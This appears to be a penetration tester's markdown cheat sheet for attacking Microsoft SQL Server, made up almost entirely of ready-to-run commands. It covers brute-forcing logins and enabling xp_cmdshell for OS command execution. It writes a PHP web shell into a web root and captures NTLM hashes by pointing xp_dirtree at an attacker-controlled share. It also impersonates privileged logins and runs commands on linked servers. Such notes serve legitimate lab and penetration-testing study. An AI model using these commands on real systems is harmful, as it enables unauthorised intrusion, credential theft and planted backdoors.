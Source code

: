 Bruteforce:

```bash
use auxiliary/scanner/mssql/mssql_login
```

Windows:

```bash
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

Linux:

```bash
mssqlclient.py -p 1433 julio@10.129.203.7
mssqlclient.py -p 1433 julio@10.129.203.7 -windows-auth 
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h - (Windows Auth)
```

### Sqlsh

Use `-m vert/ascii` to format the tables

`vert`: Displays results in a vertical format (one column per row), useful for long rows.
`ascii`: Creates clean ASCII table output with aligned columns.

View Databases:

```bash
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```

Select Database:

```bash
1> USE <database>
2> go
```

Show Tables:

```bash
1> SELECT table_name FROM <database>.INFORMATION_SCHEMA.TABLES
2> GO
```

View table:

```bash
1> SELECT * FROM <table_name>
2> go
```

Command Execution:

```bash
1> xp_cmdshell 'whoami'
2> GO
```

### XP_CMDSHELL

Enable:

```bash
1> EXECUTE sp_configure 'show advanced options', 1
2> GO

-- To update the currently configured value for advanced options.  
1> RECONFIGURE
2> GO  

-- To enable the feature.  
1> EXECUTE sp_configure 'xp_cmdshell', 1
2> GO  

-- To update the currently configured value for this feature.  
1> RECONFIGURE
2> GO
```

### Write Files

Need to enable Ole Automation Procedures

```bash
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

### Create a File

```bash
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### Read Local Files

```bash
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

### Stealing User Hash

```bash
auxiliary/admin/mssql/mssql_ntlm_stealer
EXEC master..xp_dirtree '\\10.10.15.65\share\'

responder -I <interface>
```

### Identify users we can impersonate

```bash
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

### Impersonate a user

```bash
1> EXECUTE AS LOGIN = '<USER>'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

### Linked Databases

View linked databases:

```bash
1> SELECT srvname, isremote FROM sysservers
2> GO
```

or

```bash
EXEC sp_linkedservers;
```

Verify who we are on the remote server remote server:

```bash
EXEC ('select SYSTEM_USER;') AT [<remote_server>];
```

Gain code execution on remote server  emote server:

```bash
EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') AT [<remote_server>];

EXEC ('EXEC xp_cmdshell ''whoami'';') AT [<remote_server>];
```




